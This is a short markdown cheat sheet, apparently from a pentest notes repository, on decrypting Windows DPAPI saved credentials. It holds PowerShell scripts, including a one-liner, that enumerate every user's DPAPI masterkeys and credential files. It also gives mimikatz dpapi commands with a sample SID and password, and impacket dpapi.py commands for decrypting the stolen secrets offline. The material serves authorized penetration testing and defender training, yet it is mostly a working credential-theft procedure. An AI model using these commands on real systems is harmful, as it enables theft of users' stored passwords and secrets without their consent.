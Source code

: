 # Decrypting DPAPI Credentials

pre-requirement: 
1. Target account masterkeys : `C:\Users\<useranme>\AppData\Roaming\Microsoft\Protect\*`
2. Target account secrets : `C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\*`
3. Target account sid, password / sha1 hash.

## Search Script

```powershell
$searchDir = "C:\VSS\Users"
$users = Get-ChildItem $searchDir
foreach ($user in $users) {
    " ========== $user - Master Key =========" ;
    $folders = Get-ChildItem -Directory -force "$searchDir\$user\AppData\Roaming\Microsoft\Protect\" -ErrorAction SilentlyContinue; 
	foreach ($folder in $folders) {
		"$searchDir\$user\AppData\Roaming\Microsoft\Protect\$folder"
		Get-ChildItem -force "$searchDir\$user\AppData\Roaming\Microsoft\Protect\$folder" -ErrorAction SilentlyContinue | foreach {$_.Fullname}
	}
	
	$folders = Get-ChildItem -Directory -force "$searchDir\$user\AppData\Local\Microsoft\Protect\" -ErrorAction SilentlyContinue
	foreach ($folder in $folders) {
		"$searchDir\$user\AppData\Local\Microsoft\Protect\$folder"
		Get-ChildItem -force "$searchDir\$user\AppData\Local\Microsoft\Protect\$folder" -ErrorAction SilentlyContinue | foreach {$_.Fullname}
	}
	
    " ========== $user - Secret =========" ;
	Get-ChildItem -force "$searchDir\$user\AppData\Roaming\Microsoft\Credentials" -ErrorAction SilentlyContinue | foreach {$_.Fullname}	
	
}
```

## One-liner search script

```powershell
$searchDir = "C:\Users" ; $users = Get-ChildItem $searchDir ; foreach ($user in $users) {   " ========== $user - Master Key =========" ;     $folders = Get-ChildItem -Directory -force "$searchDir\$user\AppData\Roaming\Microsoft\Protect\" -ErrorAction SilentlyContinue;     foreach ($folder in $folders) { "$searchDir\$user\AppData\Roaming\Microsoft\Protect\$folder" ;   Get-ChildItem -force "$searchDir\$user\AppData\Roaming\Microsoft\Protect\$folder" -ErrorAction SilentlyContinue | foreach {$_.Fullname} ;  }  $folders = Get-ChildItem -Directory -force "$searchDir\$user\AppData\Local\Microsoft\Protect\" -ErrorAction SilentlyContinue ;     foreach ($folder in $folders) { "$searchDir\$user\AppData\Local\Microsoft\Protect\$folder" ; Get-ChildItem -force "$searchDir\$user\AppData\Local\Microsoft\Protect\$folder" -ErrorAction SilentlyContinue | foreach {$_.Fullname} ; } ; " ========== $user - Secret =========" ;   Get-ChildItem -force "$searchDir\$user\AppData\Roaming\Microsoft\Credentials" -ErrorAction SilentlyContinue | foreach {$_.Fullname} ; }
```

## Decrypt on other computer (windows)

1. Loading masterkey with `dpapi::masterkey` : `dpapi::masterkey /in:87790867-a883-4a2d-a467-019c315e1104 /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:P@ssw0rd`
2. Check if load success : `dpapi::cache`
3. Decrypt secret: `dpapi::cred /in:4A2EEB30EFC7958491B6578D9948EC7F`

## Decrypt on other computer (Linux)

1. Using `dpapi masterkey` to get key : `$ dpapi.py masterkey  -file <keyfile> -sid <userSid> -password <userPassword>`
2. Decrypt the key: `$ dpapi.py credential -file <encryptedFiles> -key <output in the first command>`
3. If the key matched, it will return the decrypt value.

## Reference

+ https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey
+ https://otterhacker.github.io/Pentest/Techniques/DPAPI.html

